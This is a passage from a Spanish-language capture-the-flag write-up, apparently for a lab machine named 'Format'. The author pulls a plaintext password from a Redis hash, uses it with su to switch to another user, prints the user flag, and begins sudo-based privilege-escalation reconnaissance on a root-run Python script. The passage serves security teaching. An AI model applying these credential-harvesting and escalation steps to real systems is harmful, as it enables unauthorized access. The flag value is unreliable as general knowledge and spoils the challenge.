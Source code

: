 Listo los campos para ```cooper.dooper```

```null
redis /run/redis/redis.sock> HGETALL cooper.dooper
 1) "username"
 2) "cooper.dooper"
 3) "password"
 4) "zooperdoopercooper"
 5) "first-name"
 6) "Cooper"
 7) "last-name"
 8) "Dooper"
 9) "pro"
10) "false"
```

Su contraseña aparece en el cuarto. Puedo ver la primera flag

```null
www-data@format:/tmp$ su cooper
Password: 
cooper@format:/tmp$ cd
cooper@format:~$ cat user.txt 
a041a3b0af5dfc13d0b64e3f2dfdcaef
```

# Escalada

Tengo un privilegio a nivel de ```sudoers```

```null
cooper@format:~$ sudo -l
[sudo] password for cooper: 
Matching Defaults entries for cooper on format:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cooper may run the following commands on format:
    (root) /usr/bin/license
```

No tengo capacidad de escritura

```null
cooper@format:~$ ls -l /usr/bin/license 
-rwxr-xr-x 1 root root 3519 Nov  3  2022 /usr/bin/license
```

Se trata de un script de ```python```

```null
cooper@format:~$ file /usr/bin/license 
/usr/bin/license: Python script, ASCII text executable
```

```null
cooper@format:~$ cat /usr/bin/license 
#!/usr/bin/python3

import base64
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.kdf.pbkdf2 import PBKDF2HMAC
from cryptography.fernet import Fernet
import random
import string
from datetime import date
import redis
import argparse
```